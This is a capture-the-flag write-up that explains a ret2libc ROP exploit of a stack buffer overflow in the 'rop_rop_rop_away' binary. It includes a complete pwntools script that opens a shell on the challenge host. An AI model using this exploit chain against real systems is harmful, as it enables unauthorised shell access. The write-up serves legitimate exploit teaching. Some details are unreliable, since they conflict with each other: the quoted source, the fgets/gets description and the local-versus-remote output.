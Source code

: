 # rop_rop_rop_away

Given an ELF, libc and C source code of the binary. Generally speaking, libc files can determine the addresses of which where the binary is being executed. So they only thing that left is just to determine what is the correct OFFSET in order to exploit the BOF. Then, we can grab the function addresses from the libc file. 

but first, its a good idea to check the file type in order to have a clear visibily of what we are dealing with. 

```bash
file rop_rop_rop_away
rop_rop_rop_away: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0e86dbd76fcb9e38dea86cc8ec5b719140139231, for GNU/Linux 3.2.0, not stripped
```
Its important to know that the file is an 64 bit exectuable, this way we can adapt our final payload in order for our payload to work as expected. Now that we know that we are dealing with a 64 bit binary, its a good idea to check what are the protections that was implemented while compilng this binary.
```bash
checksec rop_rop_rop_away
[*] '/home/osboxes/Desktop/solver/rop_rop_rop_away'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

**NX stands for No eXecute and XD stands for eXecute Disable. Both are same and is a technology used in processors to prevent execution of certain types of code.**  (you can read more about it [here](https://access.redhat.com/solutions/2936741 "here"))



Executing the binary gives the address of fgets function? 

```bash
./rop_rop_rop_away
ROP, ROP, ROP away!
-----------------------
The function fgets() is at 0X7FFFF7E477B0
Enter your character name: AAAAAAAAAAAAAAAAAAAA
Welcome AAAAAAAAAAAAAAAAAAAA to BOF wonderland!
Goodbye!
```

Looking back for the C file in order to get  a better visibilty on what is going on.. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
	printf("ROP, ROP, ROP away!\n");
	printf("-----------------------\n");
	system("/bin/sh")
	//Address of gets
	printf("The function fgets() is at %p\n", fgets);

	//The buffer overflow itself
	char name[32];
	printf("Enter your character name: ");
	gets(name);

	//Print out the name
	printf("Welcome %s to BOF wonderland!\n", name);
	printf("Goodbye!\n");
	return 0;
}
```

from the given code, It is not clear how they were getting the fgets function address, but given the fact that they provided a libc file, I am gonna assume that its being extracted from there. 

From the given code, name can take only 32 buffer, and using fgets to get the user input, it's clear that we can do some evil here. After playing with the binary a littile bit, it seems that 40 is our OFFSET. 

```bash
python -c 'print "A"*40' | ./rop_rop_rop_away
ROP, ROP, ROP away!
-----------------------
The function fgets() is at 0x7ffff7e477b0
Enter your character name: Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA to BOF wonderland!
Goodbye!
ROP, ROP, ROP away!
-----------------------
The function fgets() is at 0x7ffff7e477b0
Enter your character name: Welcome  to BOF wonderland!
Goodbye!
Segmentation fault (core dumped)
```


Based on that, we can create our exploit. 

The fact that we are provided with the fgets address makes things easier, just saying.
Based on that we can calculate the libc base address, and from there everything should work like a charm. To do that, we have to substract the fgets address that is given to us when running the binary with the fgets from libc file. We can easily do that using pwntools.


```python
from pwn import *
import re

libc = ELF("./libc.so.6")
p = remote("pwn.ctf.ae",9999)
#elf = ELF("./rop_rop_rop_away")
#p = elf.process()
x = p.recv()
fgets = re.search("0[xX][0-9a-fA-F]+",x) # Regex to get fgets address
#print(x)
if fgets:
	fgets = int(fgets.group(0),16)
	#print(hex(fgets))
libc.address = fgets - libc.symbols['fgets']
```
Now that we calculated the libc base address, we can any all address within the libc file. And in this case, we want to know where [system](https://pubs.opengroup.org/onlinepubs/009604599/functions/system.html "system") is :). 

```python
system = libc.symbols['system']
```
In order to spawn a shell we need to find where /bin/sh is.

```python
bin_sh = libc.search("/bin/sh").next()
```

To pass /bin/sh into system we will need **pop rdi ; ret** we can get that using a tool called [ROPgadget](https://github.com/JonathanSalwan/ROPgadget "ROPGadget")

```bash
ROPgadget --binary rop_rop_rop_away | grep 'pop rdi ; ret'
0x0000000000401273 : pop rdi ; ret
```

It is also a good idea to get **ret** to avoid breaking our payload. We can also get that using ROPgadget. 

```bash
ROPgadget --binary rop_rop_rop_away | grep 'ret'
0x00000000004010eb : add bh, bh ; loopne 0x40115a ; nop ; ret
0x00000000004011fc : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004011fd : add byte ptr [rax], al ; add cl, cl ; ret
0x000000000040115a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004011fe : add byte ptr [rax], al ; leave ; ret
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401159 : add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004011ff : add cl, cl ; ret
0x00000000004010ea : add dil, dil ; loopne 0x40115b ; nop ; ret
0x00000000004010e9 : add dil, dil ; loopne 0x40115c ; nop ; ret
0x00000000004010e8 : add dil, dil ; loopne 0x40115d ; nop ; ret
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401157 : add eax, 0x2ee3 ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x00000000004010c3 : cli ; ret
0x000000000040128b : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040125c : fisttp word ptr [rax - 0x7d] ; ret
0x0000000000401158 : jrcxz 0x401190 ; add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401200 : leave ; ret
0x00000000004010ed : loopne 0x401158 ; nop ; ret
0x0000000000401156 : mov byte ptr [rip + 0x2ee3], 1 ; pop rbp ; ret
0x00000000004011fb : mov eax, 0 ; leave ; ret
0x00000000004010ef : nop ; ret
0x000000000040126c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040126e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401270 : pop r14 ; pop r15 ; ret
0x0000000000401272 : pop r15 ; ret
0x000000000040126b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040126f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401273 : pop rdi ; ret
0x0000000000401271 : pop rsi ; pop r15 ; ret
0x000000000040126d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret ## This is what we want
0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x000000000040128d : sub esp, 8 ; add rsp, 8 ; ret
0x000000000040128c : sub rsp, 8 ; add rsp, 8 ; ret
```
Putting all of it together, our exploit should work. Here is the final exploit. 
```python
from pwn import *
import re

libc = ELF("./libc.so.6")
p = remote("pwn.ctf.ae",9999)
#elf = ELF("./rop_rop_rop_away")
#p = elf.process()
x = p.recv()
fgets = re.search("0[xX][0-9a-fA-F]+",x)
#print(x)
if fgets:
	fgets = int(fgets.group(0),16)
	#print(hex(fgets))
libc.address = fgets - libc.symbols['fgets']

system = libc.symbols['system']
bin_sh = libc.search("/bin/sh").next()
pop_rdi = 0x0000000000401273 
ret = 0x000000000040101a
rop_chain = [

	pop_rdi,bin_sh,
	ret,system
	]
print("[+] libc base {}".format(hex(libc.address)))
print("[+] system {}".format(hex(system)))
print("[+] /bin/sh {}".format(hex(bin_sh)))
rop_chain = ''.join([p64(r) for r in rop_chain])
payload = "B" * 40 + rop_chain
print(payload)
p.sendline(payload)
p.interactive()
```

```bash
Executing the python script should provide us an interactive shell.
$ python solve.py 
[*] '/home/osboxes/Desktop/solver/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/osboxes/Desktop/solver/rop_rop_rop_away'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/osboxes/Desktop/solver/rop_rop_rop_away': pid 59235
[+] libc base 0x7ffff7dc2000
[+] system 0x7ffff7e17410
[+] /bin/sh 0x7ffff7f795aa
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBs\x12\x00\x00\x00\x95���\x00\x1a@\x00\x00\x00t���\x7f\x00
[*] Switching to interactive mode
Enter your character name: Welcome BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBs\x12 to BOF wonderland!
Goodbye!
$ 
```
